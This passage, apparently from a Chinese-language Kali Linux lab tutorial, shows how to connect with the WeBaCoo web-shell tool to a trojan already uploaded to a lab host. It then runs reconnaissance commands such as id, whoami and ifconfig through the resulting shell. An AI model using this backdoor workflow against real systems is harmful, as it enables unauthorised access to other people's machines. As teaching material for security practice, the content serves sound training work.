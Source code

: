 在将木马程序上传至目标主机后，在 Kali Linux 的终端中，输入如下命令创建会话通道：

```
# 连接目标主机，建立会话
webacoo -t -u http://192.168.122.1/hello.php
```

成功之后，命令行前缀发生了变化，如下图所示：

![图片描述](../imgs/1481014707333.png-wm.png)

**注意：成功后终端前缀 `root@Kali:` 变成了 `webacoo$`**

### 4.5 查看系统信息

在命令行的前缀变成了 `webacoo$` 之后，可以使用 Linux 的基础命令，查看当前信息以及用户信息：

```
# 查看当前用户 id
id

# 查看当前用户
whoami

# 查看当前目录下有哪些文件
ls

# 查看系统信息
ifconfig
```

![图片描述](../imgs/1481014938827.png-wm.png)
